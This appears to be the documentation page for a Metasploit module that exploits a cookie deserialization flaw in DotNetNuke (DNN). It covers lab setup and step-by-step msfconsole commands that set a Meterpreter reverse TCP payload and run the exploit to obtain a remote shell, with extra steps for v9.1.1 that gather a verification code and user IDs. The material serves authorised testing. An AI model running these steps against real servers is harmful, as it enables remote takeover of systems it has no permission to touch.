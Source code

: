   [https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke](https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke)
  
  You will need SQL Server 2005/2008/2008R2/2012 or 2016 installed.
  
  Log in as the super user account and make sure the 404 error page is set to the built-in 404 Error Page.
  Typically, this is already set as the default setting, but during testing I encountered an edge case where an issue during installation caused this value to be set to "None Specified".
  
  Additionally, if you are testing this module from a machine other than the host that the application is installed on, you will need to configure the Site Alias so that it is accessible using a hostname other than `localhost`. Additional firewall rules may need to be configured to allow web access, depending on how you set up the applicaiton in IIS.
  
  This module has been tested on DNN v7.0.0 - v9.3.0-RC running on Windows Server 2016.

  
### v5.0.0 - v9.1.0
  No additional configuration required.
  
### v9.1.1+
  While logged in as the super user account, configure the application to use Verified registration. You will also need to configure the SMTP server settings to be valid in order to receive the registration email.

## Verification Steps  

### v5.0.0 - v9.1.0
  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  4. Do: ```set RHOST <RHOST>```
  5. Do: ```set RPORT <RPORT>```
  6. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  7. Do: ```set LHOST <LHOST>```
  8. Do: ```set LPORT <LPORT>```
  9. Do: ```check```
  10. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  11. Do: ```exploit```
  12. **Verify** that you get a Meterpreter shell
  
### v9.1.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the page's source code and search for a `portalId` value that is a positive integer.
  7. Start msfconsole
  8. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  9. Do: ```set RHOST <RHOST>```
  10. Do: ```set RPORT <RPORT>```
  11. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  12. Do: ```set LHOST <LHOST>```
  13. Do: ```set LPORT <LPORT>```
  14. Do: ```set VERIFICATION_CODE <Verification Code>```
  15. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  16. Do: ```set ENCRYPTED true```
  14. Do: ```check```
  15. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  16. Do: ```exploit```
  17. **Verify** that you get a Meterpreter shell
  
